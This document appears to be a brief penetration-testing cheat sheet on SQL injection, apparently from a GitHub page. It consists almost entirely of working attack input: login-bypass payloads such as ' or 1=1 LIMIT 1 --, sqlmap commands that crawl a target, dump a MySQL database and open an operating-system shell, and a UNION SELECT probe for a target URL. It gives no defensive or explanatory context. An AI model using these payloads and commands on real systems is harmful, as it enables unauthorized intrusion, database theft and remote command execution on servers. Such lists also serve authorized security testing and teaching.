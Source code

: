 Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

# SQLMAP

## sqlmap crawl  
sqlmap -u http://172.21.0.0 --crawl=1

## sqlmap dump database  
sqlmap -u http://172.21.0.0 --dbms=mysql --dump

## sqlmap shell  
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell

# SQLI

Testing for a row: 

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8